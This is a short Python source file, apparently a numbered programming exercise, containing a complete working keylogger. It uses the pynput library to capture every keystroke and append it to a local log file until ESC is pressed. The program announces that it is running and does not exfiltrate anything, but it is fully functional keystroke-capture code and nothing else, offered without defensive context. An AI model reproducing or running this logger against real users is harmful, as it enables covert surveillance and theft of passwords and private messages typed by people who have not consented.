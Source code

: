 # SCT_PY_04
keylogger program that records and logs keystrokes 
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(key.char)
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f"[{key}]")

def on_release(key):
    if key == keyboard.Key.esc:
        print("Keylogger stopped.")
        return False

print("Keylogger is running... Press ESC to stop.")
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
    
